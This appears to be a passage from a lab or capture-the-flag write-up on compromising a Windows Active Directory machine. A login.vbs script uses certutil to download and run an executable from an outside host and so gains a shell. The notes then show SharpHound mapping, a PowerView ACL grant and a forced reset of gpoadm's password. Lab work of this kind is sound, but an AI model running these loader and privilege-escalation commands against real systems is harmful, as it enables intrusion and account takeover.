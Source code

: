 we wrote this in the `login.vbs` script 

```
Dim objShell
Set objShell = WScript.CreateObject ("WScript.shell")
objShell.run "cmd.exe /C ""certutil.exe -urlcache -f http://10.8.1.92:80/hej.exe C:\Users\Amelia.Griffiths\Desktop\hej.exe"" "
Set objShell = Nothing


Dim aa
Set objShell = WScript.CreateObject ("WScript.shell")
objShell.run "cmd.exe /C ""C:\Users\Amelia.Griffiths\Desktop\hej.exe"" "
Set aa = Nothing
```


and we got shell 

![[Pasted image 20240214221954.png]]




# Privesc


User flag
![[Pasted image 20240215175151.png]]


we use bloodhound to map the AD ENV. 

```
Sharphound.exe --CollectionMethods All --Domain baby2.vl 
```


we see our use has WriteDACL and Writeowner over the user `GPOADM`

![[Pasted image 20240217110225.png]]


grant user 'Amelia.Griffiths' the rights to change 'gpoadm's password using powerview. 
```
Add-DomainObjectAcl -TargetIdentity gpoadm -PrincipalIdentity Amelia.Griffiths -Rights ResetPassword -Verbose
```


![[Pasted image 20240217112358.png]]

we force change the password for the user `gpoadm`

```
$pass = ConvertTo-SecureString '!Albin970119' -AsPlainText -Force

set-domainuserpassword -identity gpoadm -accountpassword $pass 
```
